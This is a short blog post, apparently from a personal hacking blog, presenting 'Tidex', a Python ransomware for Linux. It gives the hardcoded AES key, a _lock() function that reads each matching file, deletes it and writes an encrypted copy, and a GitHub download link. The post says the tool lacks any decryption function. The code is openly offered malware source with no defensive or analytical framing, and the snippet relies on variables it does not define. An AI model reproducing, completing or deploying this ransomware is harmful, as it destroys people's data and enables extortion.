 ```yaml
---
title: "Tidex Ransomware"
excerpt: "Ransomware Example Tidex for Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex

Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;

## Important

At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: **hkpykiiqftupr3okl04azj**

&nbsp;

Code Example

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

### [Dowload Here From GitHub](https://github.com/aiskoa/Tidex)

Thx
~ aiskoa.
